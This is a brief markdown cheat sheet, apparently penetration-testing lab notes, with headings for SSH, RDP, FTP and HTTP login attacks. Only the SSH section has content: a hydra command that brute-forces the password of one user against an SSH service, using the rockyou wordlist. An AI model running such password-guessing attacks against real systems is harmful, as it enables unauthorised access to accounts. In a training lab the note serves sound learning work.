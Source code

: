 
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP


# FTP


# HTTP GET


# HTTP POST

